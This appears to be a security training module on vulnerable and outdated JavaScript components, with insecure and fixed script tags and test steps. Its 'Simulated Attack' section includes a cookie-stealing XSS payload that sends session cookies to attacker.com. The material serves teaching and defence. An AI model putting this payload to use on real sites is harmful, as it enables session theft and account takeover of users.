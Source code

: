 # **Module 6: Vulnerable and Outdated Componentss**

## **Introduction**
**Vulnerable and outdated components** refer to **old libraries, dependencies, or software versions** that contain **known security vulnerabilities**. Attackers exploit these weaknesses to **execute remote code, steal data, or compromise the system**.

In this module, we demonstrate how **an outdated JavaScript library** with known vulnerabilities can be exploited and how keeping software updated prevents such attacks.

---

## **Vulnerability: Using Outdated Libraries**
**Issue:** The platform is using an **outdated JavaScript library (v1.2.3)**, which contains known security vulnerabilities that can:
- **Expose user data** through XSS attacks.
- **Allow remote code execution**.
- **Bypass authentication mechanisms**.

---

## **Insecure Code Example**
This code loads an **outdated version of a JavaScript library** with known security flaws.

```html
<!-- Insecure Code: Using an outdated library -->
<script src="https://cdn.oldlibrary.com/v1.2.3/library.js"></script>
```

---

## **Simulated Attack**
How an attacker can exploit this flaw

1. The attacker scans the application and identifies that the platform is using Library v1.2.3, which is outdated.
2. They find a public exploit that allows them to run malicious JavaScript code remotely.
3. The attacker injects a payload that steals session tokens:

```javascript
// Exploiting outdated JavaScript library
document.location='https://attacker.com/steal?cookie=' + document.cookie;
```

**Consequence:** The attacker gains access to user sessions, allowing account takeover.

---

## **Proper Implementation: Keep Software Updated**
The system should always use the latest, secure versions of all libraries.

```html
<!-- Secure Code: Using an updated library -->
<script src="https://cdn.securelibrary.com/v2.5.0/library.js"></script>
```
### **Why is this secure?**
- Fixes known vulnerabilities in outdated versions.
- Protects against public exploits that target older versions.
- Reduces the risk of code execution attacks.

---

## **How to Test the Vulnerability in the Platform**

### **Step 1: Simulate an Attack Using an Outdated Librar**
1. Log into the user dashboard.
2. Click "Check for Library Updates".
3. If the system reports "Version v1.2.3 (Vulnerable)", attempt to inject malicious JavaScript.
4. Observe that the attack succeeds because the library is outdated.

### **Step 2: Test the Secure Implementation**
1. Click "Update to Secure Version" to apply Library v2.5.0.
2. Attempt the same attack again.
3. The system now prevents exploitation, and the script is blocked.

---

## **Conclusion**

- NEVER use outdated libraries or software components.
- Regularly check for software updates and apply security patches.
- Monitor dependencies for known vulnerabilities.
- Use a package manager (npm, yarn) to track updates automatically.
